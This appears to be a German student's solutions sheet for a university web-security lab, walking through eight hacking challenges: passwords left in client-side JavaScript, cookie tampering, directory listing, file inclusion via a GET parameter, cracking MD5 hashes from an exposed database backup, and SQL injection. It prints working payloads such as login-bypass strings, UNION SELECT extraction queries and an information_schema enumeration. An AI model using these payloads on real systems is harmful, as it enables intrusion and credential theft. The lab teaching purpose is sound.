 # Hacking Challenge - Lösungen


### 1. Simple 1

- Quelltext anzeigen, das Passwort zum Einloggen steht im Klartext im JavaScript-Teil alternativ im Browser secure.html aufrufen

```[js]
<script>
    $('#login').click(function () {
        if ($('#username').val() === 'admin' && $('#password').val() === 'qwertz123!') {
            location.href = '/psw/student/exercise/111/secure.html';
        } else {
            alert('Falsch!');
        }
    });
</script>
```


### 2. Simple 2

- Quelltext anzeigen, das Passwort zum Einloggen steht Base 64 encoded im JavaScript-Teil, zum Dekodieren können Webtools (z.B. https://www.base64decode.org/) oder aber die Funktion window.atob("base64string") verwendet werden

```[js]
<script>
    $("#login").click(function () {
        if ($('#username').val() === 'admin' && window.btoa($('#password').val()) === 'YWxseW91cmJhc2VhcmViZWxvbmd0b3Vz') {
            return true;
        } else {
            alert('Falsch!');
            return false;
        }
    });
</script>
```   

Passwort:"allyourbasearebelongtous"

### 3. Medium 1 

- Es existiert ein Cookie mit dem Namen isAdmin und dem wert 0 dies kann beispielsweise durch den Befehl document.cookie="isAdmin=1" geändert werden.
- Cookie "admin=0"

### 4. Medium 2

- Klassische SQL Injection durch Kommentare und oder OR zu lösen
- Mögliche Lösung: Benutzername=admin Passwort=' OR '1'='1
- oder admin' OR '1'='1
- D.h. es gibt schon im Backend ein SQL-Statement (d.h. Anführungsstriche sind schon vorhanden) und hier muss nur der "admin"-Teil erstetzt werden. Deswegen hat man am Ende auch kein schließendes ' mehr, weil das am Ende des SQL-Statements noch kommt. Am Anfang kommt ein ' weil man den Admin-String noch schließen muss innerhalb des SQL-Statements.


### 5. Medium 3

- Im Quelltext findet sich der Pfad zu einem Bild im Ordner files, wird dieser Ordner aufgerufen so kann man feststellen das hier eine htaccess datei fehlt. In der datei users.txt findet sich das gesuchte Passwort
- Apache config -> Listing -> pws.txt
- https://psw.matse.itc.rwth-aachen.de/psw/student/exercise/123/files/users.txt

### 6. Advanced 1 

- Anpassen des GET Parameters um die Datei pws.txt einzubinden

- "Admins können auf dieser Seite [LINK zu pws.txt] die Passwörter einsehen".
- ?q=test.php
- pws.txt -> 403 Error

- Lösung: GET-Parameter: https://psw.matse.itc.rwth-aachen.de/psw/student/exercise/131/index.php?q=pws.txt

### 7. Advanced 2 

- Seite: [Input] [Passwort] [submit]

- Infos für Administratoren:
    - Verzeichnis templates enthält alle Templates der Seite => 403
    - Verzeichnis classes enthält alle PHP-Classes => 403
    - Verzeichnis backup enthält alle Datenbank-Backups (im Format dump-YYYY-MM-DD.sql). => backup/backup-2016-12-01.sql
    - Die Verzeichnisse sollten aber entsprechend geschützt sein.

- Lösung: https://psw.matse.itc.rwth-aachen.de/psw/student/exercise/132/backup/backup-2020-12-01.sql (Datum beliebig)
- Bei "INSERT INTO user..." werden vier User hinzugefügt. Die Passwörter sind md5 gehasht
- Decrypt mit z.B. https://hashes.com/en/decrypt/hash oder https://www.md5online.org/md5-decrypt.html

- Nutzer:
    - Killer : "iloveyou1"   funktioniert nicht da der nutzer inactiv ist (angeblich eines der häufigsten passworte des myspace hacks)
    - Tiny: "123qwerty!" kein admin
      - funktioniert auf Windows komischerweise - Linux nicht
    - Matt: geht nicht zu entschlüsseln?
    - Jane: "supersecret123!" (können die meisten Websites nicht decrypten, scheint also nicht in deren Datenbank zu sein)


### 8. Advanced 3 

- Seite: SQL Union
- In der Response vom POST-Request auf https://psw.matse.itc.rwth-aachen.de/psw/student/exercise/133/show sieht man, dass ein JSON-Objekt mit drei Key/Value-Paaren zurückkommt. Man kann daraus schließen, dass die Tabelle 3 Spalten hat
- auf der Hauptseite steht der Tipp: "Bei Aufgaben bei denen Zugriff auf eine Datenbank möglich ist können sie in der Tabelle "user" den gesuchten Lösungs-Hash finden."
- D.h. die relevante Information steht in der Tabelle "user". Diese hat aber nur zwei Spalten. Das findet man raus, wenn man SQL Union versucht. D.h. hier muss künstlich eine 3. Spalte eingefügt werden. 

- Der POST-Request lässt sich mit beliebigen Werten für den Namen aufrufen. Hier sind SQL Injections möglich.

- Mögliche Lösungen:
    - PAUL' UNION SELECT *, 'x' FROM user #
        - das , 'x' muss hinzugefügt werden, da das eigentliche Statement (links vom UNION SELECT) je drei Rückgabewerte/Spalten besitzt, die Tabelle user aber nur zwei Spalten hat
        - siehe https://de.wikipedia.org/wiki/SQL-Injection#Aussp%C3%A4hen_von_Daten
    - ' UNION SELECT password as name, 'b' as message, 'a' as date FROM user WHERE 1=1 OR password='
    - ' UNION SELECT name,password,42 FROM user WHERE True or '
    - ' UNION SELECT name,password,42 FROM user WHERE 1=1 OR password='
    - ' UNION SELECT name,password,42 FROM user WHERE 1='1


    was soll das hier?!?!
    - "name=' OR 1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.tables #"
     (# um den Rest der SQL Query im Backend auszukommentieren)
    - name=PSW' UNION SELECT *,NULL FROM user WHERE name='PSW&_csrf=o5NBgUsY-MRmuTfV8QN3fEb2CeXWJHOPBEfY
    - name=' or 'a'='a' union Select *,null from user where 'a'='a &_csrf=nM6F7eo0-nxzKwX5JuQof7Gv3-mzIZlwOlOw


- Request mit Insomnia: POST https://psw.matse.itc.rwth-aachen.de/psw/student/exercise/133/show
    - Form:
        - name=Paul' UNION SELECT *, 'x' FROM user #
        - _csrf=a1sJt8bD-dSxNyLuvVXeConoXX0JIy6qHR2c
          - ACHTUNG: CSRF wird bei jedem F5 neu erzeugt! --> sieht man in den Dev Tools unter Payload oder über $("#_csrf").val()
    - Header:
        - Content-Type: application/x-www-form-urlencoded
        - Cookie: ea7172daa01e8162458d82f346a97a5d
        - + disable automatic setting cookies (Rechtsklick Request --> Settings)

- oder einfach mittels Firefox Browser das Request neu abschicken ("bearbeiten und erneut senden")
- Javascript (Konsole Dev-Tools):
```
  $.post("/psw/student/exercise/133/show", {name: "psw' UNION SELECT password, 'x', 'x' FROM user WHERE ''='", _csrf: $("#_csrf").val()}, function (data) {
                              
                var messages = ""
                for (var i = 0; i < data.length; i += 1) {
                    messages += "<h4>" + data[i].name + "</h4><p>" + data[i].message + "</p>";
                }
                $('#messages').html(messages);
            });
```
